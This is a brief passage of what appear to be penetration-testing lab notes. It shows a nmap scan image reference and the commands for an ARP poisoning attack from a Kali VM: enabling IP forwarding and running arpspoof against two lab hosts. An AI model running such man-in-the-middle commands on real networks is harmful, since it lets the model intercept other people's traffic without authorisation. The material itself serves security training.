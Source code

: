 ![nmap 10.100.13.0/24](assets/image-20230324125014246.png)

### ARP Poisoning Attack

- To see traffic of other machines, configure Kali Attacker VM to forward IP packets

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- Start the ARP poisoning attack with the [**`arpspoof`**](https://www.kali.org/tools/dsniff/#arpspoof) tool

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
# -t = target
# -r = host
```
